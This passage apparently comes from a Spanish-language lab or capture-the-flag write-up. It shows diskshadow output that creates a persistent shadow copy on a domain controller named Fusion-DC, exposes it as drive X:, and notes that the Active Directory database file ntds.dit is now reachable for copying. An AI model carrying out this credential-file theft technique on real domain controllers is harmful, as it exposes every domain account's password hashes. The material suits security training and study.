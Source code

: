             * Including writer "Registry Writer":
                    + Adding component: \Registry
            
            * Including writer "NTDS":
                    + Adding component: \C:_Windows_NTDS\ntds
            
            * Including writer "DFS Replication service writer":
                    + Adding component: \SYSVOL\3656A825-08E2-4C77-82F0-0F07EC965204-BFD185EF-4D5F-44A5-950B-C2222C20A32C
            
            * Including writer "COM+ REGDB Writer":
                    + Adding component: \COM+ REGDB
            
            Alias ntdsdrive for shadow ID {1d5fadb8-6810-414b-9daf-9abbf1ab7443} set as environment variable.
            Alias VSS_SHADOW_SET for shadow set ID {3614fe2a-3c60-449b-80d2-1820ad0d79c2} set as environment variable.
            Inserted file Manifest.xml into .cab file 2023-10-15_12-30-32_FUSION-DC.cab
            Inserted file BCDocument.xml into .cab file 2023-10-15_12-30-32_FUSION-DC.cab
            Inserted file WM0.xml into .cab file 2023-10-15_12-30-32_FUSION-DC.cab
            Inserted file WM1.xml into .cab file 2023-10-15_12-30-32_FUSION-DC.cab
            Inserted file WM2.xml into .cab file 2023-10-15_12-30-32_FUSION-DC.cab
            Inserted file WM3.xml into .cab file 2023-10-15_12-30-32_FUSION-DC.cab
            Inserted file WM4.xml into .cab file 2023-10-15_12-30-32_FUSION-DC.cab
            Inserted file WM5.xml into .cab file 2023-10-15_12-30-32_FUSION-DC.cab
            Inserted file WM6.xml into .cab file 2023-10-15_12-30-32_FUSION-DC.cab
            Inserted file WM7.xml into .cab file 2023-10-15_12-30-32_FUSION-DC.cab
            Inserted file WM8.xml into .cab file 2023-10-15_12-30-32_FUSION-DC.cab
            Inserted file WM9.xml into .cab file 2023-10-15_12-30-32_FUSION-DC.cab
            Inserted file WM10.xml into .cab file 2023-10-15_12-30-32_FUSION-DC.cab
            Inserted file DisB4EA.tmp into .cab file 2023-10-15_12-30-32_FUSION-DC.cab
            
            Querying all shadow copies with the shadow copy set ID {3614fe2a-3c60-449b-80d2-1820ad0d79c2}
            
                    * Shadow copy ID = {1d5fadb8-6810-414b-9daf-9abbf1ab7443}               %ntdsdrive%
                            - Shadow copy set: {3614fe2a-3c60-449b-80d2-1820ad0d79c2}       %VSS_SHADOW_SET%
                            - Original count of shadow copies = 1
                            - Original volume name: \\?\Volume{66a659a9-0000-0000-0000-602200000000}\ [C:\]
                            - Creation time: 10/15/2023 12:30:30 AM
                            - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                            - Originating machine: Fusion-DC.fusion.corp
                            - Service machine: Fusion-DC.fusion.corp
                            - Not exposed
                            - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                            - Attributes:  No_Auto_Release Persistent Differential
            
            Number of shadow copies listed: 1
            -> expose %ntdsdrive% X:
            -> %ntdsdrive% = {1d5fadb8-6810-414b-9daf-9abbf1ab7443}
            The shadow copy was successfully exposed as X:\.
            -> end backup
            -> exit

        3)La copia se ha creado correctamente y en estos momentos tenemos el fichero ntds.dit en x:\windows\ntds\ntds.dit
